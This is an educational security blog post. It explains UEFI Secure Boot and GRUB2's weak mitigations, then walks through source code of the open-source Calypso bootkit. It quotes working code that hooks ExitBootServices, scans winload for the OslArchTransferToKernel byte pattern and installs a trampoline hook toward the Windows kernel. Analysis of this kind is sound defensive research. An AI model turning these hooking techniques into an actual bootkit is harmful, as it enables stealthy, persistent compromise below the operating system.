 # The anatomy of a bootkit
This year I [discovered](https://www.microsoft.com/en-us/security/blog/2025/03/31/analyzing-open-source-bootloaders-finding-vulnerabilities-faster-with-ai/) some interesting vulnerabilities in [GRUB2](https://www.gnu.org/software/grub/), the de-facto Linux bootloader standard.  
But why are vulnerabilities in a bootloader are so interesting? That's what I'd like to explain today.  

## GRUB2 and Secure Boot
Before 2006, Intel-based computers booted into startup firmware code commonly known as the [BIOS](https://en.wikipedia.org/wiki/BIOS) (Basic Input/Output System), which was responsible for hardware initialization and setup of common services to later be used by a [bootloader](https://en.wikipedia.org/wiki/Bootloader). Ultimately, the BIOS would transfer control to a Bootloader coded in Real Mode, which would commonly load an operating system.  
With time, attackers realized there is no root-of-trust verification of bootloaders by the firmware, thus began the era of Bootkits, which are bootloader-based rootkits.  To standardize the boot process, a unified firmware schema to replace BIOS was introduced in 2006, which is currently known as [UEFI](https://en.wikipedia.org/wiki/UEFI) (Unified Extensible Firmware Interface).  
UEFI also helped combat Bootkits, as it offers services that validate bootloaders and its own extensible modules by means of digital signatures. That protocol is known as [Secure Boot](https://learn.microsoft.com/en-us/windows-hardware/design/device-experiences/oem-secure-boot), and is essential to establishing a root of trust for the boot process, in which the firmware verifies UEFI drivers and OS modules with a platform key or a Key Exchange Key, and bootloaders verify the loaded operating system.  
Trust is then achieved with the help of OEMs, which can sign code trusted by Secure Boot, by means of Certificate Authorities (CA). Essentially, OEMs sign code with their private key, and their public key is signed with a root CA, commonly [Microsoft’s UEFI CA](https://uefi.org/sites/default/files/resources/UEFI_Plugfest_2013_-_New_Orleans_-_Microsoft_UEFI_CA.PDF). This is also essential to supporting non-Windows bootloaders such as GRUB2 (which commonly boots Linux) and allowing 3rd party operating systems to benefit from Secure Boot. Since GRUB2 is fully open-sourced, vendors install a small program called a [Shim](https://www.gnu.org/software/grub/manual/grub/html_node/UEFI-secure-boot-and-shim.html), which is signed by Microsoft’s UEFI CA and is responsible for validating the integrity of GRUB2.

### The dangers of GRUB2
Since bootloaders run before operating systems run, they mostly have UEFI-provided services as APIs to rely on. Therefore, bootloaders do not benefit from modern operating systems security features, such as:
-	No-Execute (NX): known in Windows as [DEP](https://learn.microsoft.com/en-us/windows/win32/memory/data-execution-prevention) (Data Execution Prevention), and treats memory page execute protections. Before the introduction of NX, attackers could override return addresses (which are maintained in-memory) and jump to arbitrary code (commonly a [shellcode](https://en.wikipedia.org/wiki/Shellcode)) that could be placed via the provided input.
-	[ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) (Address Space Layout Randomization): randomizes the base address of modules, which makes return address overrides and function pointer overrides highly unreliable, since attackers do not know where usable code might be found.
-	Safe dynamic allocators: dynamic allocations are a favorite target for attackers, and modern operating systems harden their heap allocators with various techniques, including [Safe Unlinking](https://msrc.microsoft.com/blog/2009/05/safe-unlinking-in-the-kernel-pool/), [type-safety](https://security.apple.com/blog/towards-the-next-generation-of-xnu-memory-safety/), Pointer Authentication and [others](https://theapplewiki.com/wiki/Heap_Hardening).
-	[Stack cookies \ Canaries](https://en.wikipedia.org/wiki/Buffer_overflow_protection): those are randomly generated values pushed between the return address and local variables, on the stack, with the intent on detecting changes in their values before using the return address (commonly in a RET instruction).

 Additionally, GRUB2 offers complex logic to deal various features, including:
-	Image file parsers (PNG, TGA and JPEG)
-	Font parsing and support (PF2 file format)
-	Network support (HTTP, FTP, DNS, ICMP, etc.)
-	Various filesystem supportability (FAT, NTFS, EXT, JFS, HFS, ReiserFS, etc.)
-	Bash-like command-line utility
-	Extensible dynamic module loading capabilities

Furthermore, GRUB2 is coded in C, which is considered a memory-unsafe language, and as mentioned, does not benefit from any modern security mitigation. Considering the implication of defeating Secure Boot and strategically assessing the project (e.g. with Google’s [Rule of 2](https://chromium.googlesource.com/chromium/src/+/master/docs/security/rule-of-2.md)), it is clear why GRUB2 should become a lucrative target for vulnerability researchers.

## How does a bootkit work
As we explained, finding a vulnerability in an OEM-trusted bootloader (such as GRUB2) means attackers might be able to bypass Secure Boot.  
Since bootloader usually handle complex inputs, coded in unsafe languages, implement their own heap and do not use modern mitigations - getting arbitrary code execution is quite likely.  
Assuming an attacker is able to achieve arbitrary code execution - what should they do?  
For this I'd like to examine one Bootkit - initially I wanted to examine BlackLotus ([found on Github](https://github.com/ldpreload/BlackLotus/tree/main)) as a modern example, but the source code there actually is missing several key functions used there (and yes, it won't compile).  
I did find one very similar to it called [Calypso](https://github.com/3a1/Calypso/), which is way easier to read, so I will be sticking to it mostly.  
With that, let us examine some source code!  
Remark: in this analysis, I might be skipping some code to make this blogpost more comprehensible. 

### Hooking EFI services
This Bootkit is compiled as an EFI module - essentially, a PE file that can be loaded through UEFI. Therefore, its code will start at an `EfiMain` function, located in `Bootkit/main.cpp`:
```c
EXTERN_C EFI_STATUS EFIAPI UefiMain(IN EFI_HANDLE ImageHandle, IN EFI_SYSTEM_TABLE* SystemTable)
{
    global::RuntimeServices = SystemTable->RuntimeServices;
    global::BootServices    = SystemTable->BootServices;
    global::SystemTable     = SystemTable;

    global::ExitBootServices = global::BootServices->ExitBootServices;
    global::BootServices->ExitBootServices = ExitBootServicesWrapper;

    global::BootServices->CreateEvent(EVT_SIGNAL_VIRTUAL_ADDRESS_CHANGE, TPL_NOTIFY, NotifySetVirtualAddressMap, NULL, &global::NotifySetVirtualAddressMapEvent);

    return EFI_SUCCESS;
}
```

Each `EFI` module gets a pointer to a `SystemTable` which contains a bunch of other tables, which contain function pointers.  
Just like an old bootloader used to call `BIOS interrupts` to use as services (e.g. reading the disk or printing to the terminal), so do `EFI` modules get capabilities.  
The most important piece here is the [BootServices](https://uefi.org/specs/UEFI/2.9_A/07_Services_Boot_Services.html) which contain several functions.  
With that out of the way, the code here is very easy!
1. It saves several pointers in a global namespace (the services and the system table itself).
2. It saves the function pointer to `ExitBootServices` in that global as well, and then hooks it with the `ExitBootServicesWrapper` function. Note `ExitBootServices` is called just before the handoff to the OS kernel, so that's an excellent point to hook! Also note how easy it is to hook when you have function pointers and no page protections - essentially it's a single assignment in C!
3. It creates a callback for `SetVirtualAddressMap`, which we'll be using later

With that, let's continue to the `ExitBootServicesWrapper` function!

### Hooking OslArchTransferToKernel
The `ExitBootServicesWrapper` function (`Bootkit/ExitBootServicesWrapper.asm`) is actually coded in Assembly, but it's so short it's extremely easy to analyze:

```assembly
ExitBootServicesWrapper proc
    mov rax, [rsp]
    mov RetExitBootServices, rax
    jmp ExitBootServicesHook
ExitBootServicesWrapper endp
```

Since the return address is saved in the stack, `mov rax, [rsp]` simply saves that return address in the `RAX` register, puts it in a global called `RetExitBootServices` and transfers control to `ExitBootServicesHook`.  
The `ExitBootServicesHook` function (`Bootkit/ExitBootServices.cpp`) is also easy to read:

```c
EFI_STATUS EFIAPI ExitBootServicesHook(IN EFI_HANDLE ImageHandle, IN UINTN MapKey)
{
    SET_BACKGROUND(EFI_WHITE | EFI_BACKGROUND_RED);
    CLEAR_SCREEN();
    Log("Bootkit hook-chain sequence started");
    SLEEP(500);

    global::winload = memory::get_image_base(global::RetExitBootServices);
    if (!global::winload) 
    {
        Error("Can't find winload base!");
    }
    Log("Successfully found winload base");

    global::OslArchTransferToKernel = memory::scan_section(global::winload, ".text", (uint8_t*)&OslArchTransferToKernelPattern, sizeof(OslArchTransferToKernelPattern));
    if (!global::OslArchTransferToKernel)
    {
        Error("Can't find OslArchTransferToKernel address!");
    }
    Log("Successfully found OslArchTransferToKernel address");

    trampoline::Hook(global::OslArchTransferToKernel, (uint64_t) OslArchTransferToKernelHook, (uint8_t*) &global::OslArchTransferToKernelData);

    Log("ExitBootServices stage complete");
    global::BootServices->ExitBootServices = (EFI_EXIT_BOOT_SERVICES)global::ExitBootServices;
    return global::ExitBootServices(ImageHandle, MapKey);
}
```

The first part simply does some printing and logging, so we'll be skipping that part. The next parts are more interesting:
1. We save the PE image base of `RetExitBootServices` (the global we saved back in the Assembly code). Note `ExitBootServices` was called by `winload` (the Windows bootloader), so the return address for `ExitBootServices` exactly resides in `winload`. The `memory::get_image_base` function is quite heuristic but easy to understand - it searches for PE header ("MZ") in each aligned page, going backwards. I will be explaining it after the overview of this hook.
2. We find the function `OslArchTransferToKernel` function in `winload` by calling `memory::scan_section`, simply by finding a pattern in memory. We will be explaining how it works too, but you can think of it as [memmem](https://www.man7.org/linux/man-pages/man3/memmem.3.html) function in essence. The pattern `OslArchTransferToKernelPattern` is defined in `Bootkit/struct.h` and is defined as the bytes `0x33, 0xF6, 0x4C, 0x8B, 0xE1, 0x4C, 0x8B, 0xEA`, which matches the first few instructions of `OslArchTransferToKernel` function in `winload`.
3. We hook `OslArchTransferToKernel` and divert control to `OslArchTransferToKernelHook`. Note this is a different kind of hook! The previous EFI hook was done with function pointers, but the transition to `OslArchTransferToKernel` does not involve function pointers, so we rely on Trampoline hooking, which is a fancy way of saying we patch the assembly to jump somewhere else.
4. We restore the `ExitBootServices` function which we saved easlier and invoke it to transfer control back to `winload`.


